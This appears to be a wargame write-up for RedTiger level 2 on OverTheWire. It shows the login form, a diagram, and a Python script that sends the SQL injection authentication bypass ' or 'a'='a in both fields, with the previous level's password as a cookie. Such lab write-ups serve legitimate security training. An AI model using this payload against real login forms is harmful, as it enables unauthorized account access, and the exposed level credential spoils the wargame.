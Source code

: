 ================================================================================================================
[redtiger] level2
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="username=' or 'a'='a&password=' or 'a'='a",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================

- Target: Login 
- Hint: Condition 

.. code-block:: html

    <form method="POST">
        Username: <input type="text" name="username"><br>
        Password: <input type="password" name="password"><br>
        <input type="submit" name="login" value="Login">
    </form>
    

|

or injection
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level2.php"
    cookies = {
        "level2login":"easylevelsareeasy_%21"
    }

    # ' or 1=1
    # ' or 'a'='a
    payload = {
        "username": "' or 'a'='a",
        "password": "' or 'a'='a",
        "login": "Login"
    }

    r = requests.post(url, cookies=cookies, data=payload, verify=False)

    print r.content

